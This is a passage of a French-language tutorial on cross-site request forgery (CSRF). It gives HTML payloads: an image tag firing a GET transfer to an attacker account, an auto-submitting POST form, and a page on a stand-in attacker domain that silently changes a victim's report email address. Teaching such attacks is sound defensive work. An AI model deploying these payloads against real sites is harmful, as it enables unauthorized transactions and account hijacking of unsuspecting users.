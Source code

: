 
Les vulnérabilités CSRF peuvent être basées sur des requêtes GET ou POST.

- Dans le cas de CSRF basé sur des requêtes GET, l'attaquant peut simplement utiliser une balise image (ou toute autre balise permettant des requêtes inter-sites) sur une page malveillante :

```html
`<img src="http://example.com/bank.php/?action=transfer&target=attacker_account">`
```

Lorsque l'utilisateur visite la page avec la balise image ci-dessus (par exemple, après avoir cliqué sur un lien malveillant), le navigateur de l'utilisateur tente d'ouvrir l'image mais fait plutôt une requête GET vers le site ciblé, effectuant ainsi une action malveillante tout en étant connecté au compte de l'utilisateur. Supposons que l'utilisateur soit authentifié sur example.com, l'application web ne pourra pas distinguer une demande légitime de l'utilisateur d'une demande malveillante, car elles sont toutes deux envoyées depuis le même navigateur.

- Dans le cas de CSRF basé sur des requêtes POST, l'attaquant doit travailler un peu plus. La manière la plus simple de mener une telle attaque est de forcer le navigateur de l'utilisateur à soumettre automatiquement un formulaire à l'aide de JavaScript :

```html
<body onload="document.csrf.submit()"> 
<form action="http://example.com/bank.php" method="POST" name="csrf">     
	<input type="hidden" name="action" value="transfer">     
	<input type="hidden" name="target" value="attacker_account"> 
</form>
```


L'argument onload de la balise "body" amènera le navigateur à soumettre le formulaire dès que l'utilisateur ouvre la page malveillante.

### **Exemple d'une attaque de falsification de requête inter-sites**

Le développeur d'une application métier financière crée une fonction permettant aux utilisateurs de définir l'adresse e-mail à utiliser pour recevoir quotidiennement des rapports financiers depuis l'application. Pour définir ou modifier l'adresse e-mail, un utilisateur authentifié doit remplir un formulaire HTML sur la page [http://example.com/set_email.php](http://example.com/set_email.php) :

```html
<form action="/set_email.php" method="post" id="set_email">
<label for="email">Entrez l'adresse e-mail pour recevoir les rapports :</label>     <input type="email" id="email" name="email">     
<button type="submit" form="submit" value="submit">Définir l'e-mail</button>     </form>
```


L'attaquant crée une page malveillante [http://example.attacker/exploit.html](http://example.attacker/exploit.html) avec le contenu suivant :

```html
`<body onload=document.email.submit()>
	<form action="http://example.com/set_email.php" method="post" name="email">         <input type="hidden" id="email" value="attacker@example.attacker">     
	</form> 
</body>`
```
